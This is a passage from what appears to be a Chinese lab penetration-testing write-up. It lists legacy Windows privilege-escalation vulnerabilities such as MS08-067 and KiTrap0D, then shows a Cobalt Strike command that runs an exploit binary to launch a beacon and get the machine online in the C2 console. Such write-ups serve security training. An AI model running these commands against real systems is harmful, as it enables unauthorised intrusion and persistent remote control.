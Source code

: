 ````
MS10-065 　[KB2267960]　　[FastCGI]　　(IIS 5.1, 6.0, 7.0, and 7.5)
MS10-059 　[KB982799]　　 [ACL-Churraskito]　　(2008/7/Vista)
MS10-048 　[KB2160329]　　[win32k.sys]　　(XP SP2 & SP3/2003 SP2/Vista SP1 & SP2/2008 Gold & SP2 & R2/Win7)
MS10-015 　[KB977165]　　 [KiTrap0D]　　(2003/2008/7/XP)
MS09-050 　[KB975517]　　 [Remote Code Execution]　　(2008/Vista)
MS09-020 　[KB970483]　　 [IIS 6.0]　　(IIS 5.1 and 6.0)
MS09-012 　[KB959454]　　 [Chimichurri]　　(Vista/win7/2008/Vista)
MS08-068 　[KB957097]　　 [Remote Code Execution]　　(2000/XP)
MS08-067 　[KB958644]　　 [Remote Code Execution]　　(Windows 2000/XP/Server 2003/Vista/Server 2008)
MS08-025 　[KB941693]　　 [Win32.sys]　　(XP/2003/2008/Vista)
MS06-040 　[KB921883]　　 [Remote Code Execution]　　(2003/xp/2000)
MS05-039 　[KB899588]　　 [PnP Service]　　(Win 9X/ME/NT/2000/XP/2003)
MS03-026 　[KB823980]　　 [Buffer Overrun In RPC Interface]　　(/NT/2000/XP/2003)

````

随便找个漏洞的exp来提权，我这里就跳过上传步骤了，直接到CS上线

Win64.exe是exp

![](..\images\红日\image12.png)

CS下执行找个：

``````
shell C:\Windows\Temp\Win64.exe "C:\Windows\Temp\beacon5.exe"
``````

执行后CS上线

![](..\images\红日\image13.png)